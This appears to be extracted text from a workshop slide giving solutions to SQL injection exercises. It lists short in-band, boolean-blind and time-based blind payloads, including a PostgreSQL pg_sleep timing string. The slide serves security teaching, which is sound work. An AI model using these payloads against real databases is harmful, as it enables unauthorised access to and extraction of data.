

select solutions from workshops;
Inband SQLi
Payload: 1 or 1=1 (Returns all rows)
Boolean Blind
Payload: 1 and 1=1 (TRUE), 1 and 1=2 (FALSE)
URL: Click Here
Timebased Blind
Payload: strpos((SELECT CASE WHEN 1=1 THEN pg_sleep(10) ELSE pg_sleep(0) END)::text, '1') > 0
URL: Click Here